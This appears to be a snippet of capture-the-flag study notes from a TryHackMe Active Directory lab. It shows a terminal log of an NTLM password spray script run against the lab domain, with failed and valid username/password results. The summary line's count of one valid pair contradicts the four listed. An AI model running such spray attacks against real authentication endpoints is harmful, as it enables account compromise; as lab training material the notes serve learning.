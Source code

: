 ![img](https://github.com/maxzxc0110/hack-study/blob/main/img/c9113ad0ff443dd0973736552e85aa69.png)

```
┌──(root💀kali)-[~/tryhackme/BreachingActiveDireectory]
└─# python3 ntlm_passwordspray.py -u usernames.txt -f 'za.tryhackme.com' -p 'Changeme123' -a 'http://ntlmauth.za.tryhackme.com'
[*] Starting passwords spray attack using the following password: Changeme123
[-] Failed login with Username: anthony.reynolds
[-] Failed login with Username: samantha.thompson
[-] Failed login with Username: dawn.turner
[-] Failed login with Username: frances.chapman
[-] Failed login with Username: henry.taylor
[-] Failed login with Username: jennifer.wood
[+] Valid credential pair found! Username: hollie.powell Password: Changeme123
[-] Failed login with Username: louise.talbot
[+] Valid credential pair found! Username: heather.smith Password: Changeme123
[-] Failed login with Username: dominic.elliott
[+] Valid credential pair found! Username: gordon.stevens Password: Changeme123
[-] Failed login with Username: alan.jones
[-] Failed login with Username: frank.fletcher
[-] Failed login with Username: maria.sheppard
[-] Failed login with Username: sophie.blackburn
[-] Failed login with Username: dawn.hughes
[-] Failed login with Username: henry.black
[-] Failed login with Username: joanne.davies
[-] Failed login with Username: mark.oconnor
[+] Valid credential pair found! Username: georgina.edwards Password: Changeme123
[*] Password spray attack completed, 1 valid credential pairs found

```

